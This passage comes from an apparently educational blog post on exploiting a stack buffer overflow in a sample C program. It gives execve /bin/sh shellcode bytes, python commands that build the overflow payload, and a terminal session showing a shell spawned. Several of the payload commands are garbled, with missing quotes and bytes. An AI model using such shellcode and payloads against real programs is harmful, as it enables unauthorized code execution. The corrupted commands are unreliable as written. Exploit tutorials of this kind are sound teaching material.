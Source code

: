 ```
 804807c:       cd 80                   int    0x80
 804807e:       b0 01                   mov    al,0x1
 8048080:       31 db                   xor    ebx,ebx
 8048082:       cd 80                   int    0x80
```
So, by repeating the procedure already seen in the previous post, it is possible to complete the payload. First step: identifying the byte sequence of the shellcode.  
```
“\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80”
```

It’s time to write it into a file that will be used as input of the program:  
```
 $ python -c 'import sys; sys.stdout.write("\x90"*(64-36xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80")' > payload
```
Second step: appending a dummy value for the EBP  
```
 $ python -c 'import sys; sys.stdout.write("BBBB> payload
```
Third step: adding the address of the password variable (and we already know that, by the previous post):  
```
 $ python -c 'import sys; sys.stdout.write("\x70\xd2\xff\xff> payload
```
Fourth step: test it, just like we did before!  
```
 $ echo $$
23315
$ ./example1 < payload
$ echo $$
23315
```
Same process ID. Mmm… This means it **didn’t work**, but why? If I test the shellcode by itself it works, so why shouldn’t it work when used as input of the program? Well, this has more to do with the program itself than with the shellcode. In fact, the scanf function I used to retrieve the console input flushes stdin in such a way that /bin/sh receives an EOF and quits. But this makes everything we did USELESS. Hell! No worries, as it is possible to rearrange it in a slightly different way:  
```
 $ echo $$
23315
$ ( cat payload; cat ) | ./example1

echo $$
20868
whoami
user
ls
example1  example1.c  exploit  payload  shellcode  shellcode.asm  shellcode.o
```
Even if we don’t have shell prompt (as the stdin of the shell is not connected to a terminal, sh acts like it is not running in interactive mode), the shell has been spawned and actually replies to commands.  
